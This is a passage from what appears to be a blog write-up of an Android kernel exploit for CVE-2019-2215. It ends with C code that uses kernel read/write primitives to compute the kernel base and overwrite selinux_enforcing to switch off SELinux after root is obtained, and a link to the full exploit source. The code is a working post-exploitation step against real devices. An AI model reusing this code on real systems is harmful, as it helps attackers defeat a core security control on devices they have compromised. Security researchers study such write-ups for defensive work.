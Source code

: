 **Disable SELinux enforcement**

Now that we got root privileges we need to disable SELinux enforcement, that's achivable by overwriting a global `int` called `selinux_enforcing` to 0, but we need the kernel base to know where the kernel starts then we can just find `selinux_enforcing` by using the relative offset (which may change between devices and versions).

```c
void disable_selinux_enforcing() {
    printf("\t[+] reading init_nsproxy pointer from task_struct\n");
    init_nsproxy_kptr = kread64(task_init_nsproxy_kptr);

    kbase = init_nsproxy_kptr - SYMBOL_OFFSET_INIT_NSPROXY;
    printf("\t[+] kernel base: 0x%lx\n", kbase);

    uint64_t selinux_enforcing_kptr = kbase + SYMBOL_OFFSET_SELINUX_ENFORCING;
    int ret = kread32(selinux_enforcing_kptr);
    if( ret && ret != -1 ) {
        printf("\t[+] SELinux enforcing is enabled\n");
        if( !kwrite32(selinux_enforcing_kptr, 0x0) ) {
            printf("\t[+] successfully disabled SELinux enforcing\n");
        }
    } else if(ret == 0) {
        printf("\t[+] SELinux enforcing is disabled\n");
    }
}
```

**Conlusion**

Now that we got stable arbitrary kernel r/w we can just read the `cred` struct pointer from `task_struct`, and calculate kernel base address, and from there we can overwrite `selinux_enforcing` to also disable SELinux enforcing.

You can find my exploit implementation [here](https://github.com/cutesmilee/cutesmilee.github.io/code/cve-2019-2215-exploit.c).<br>
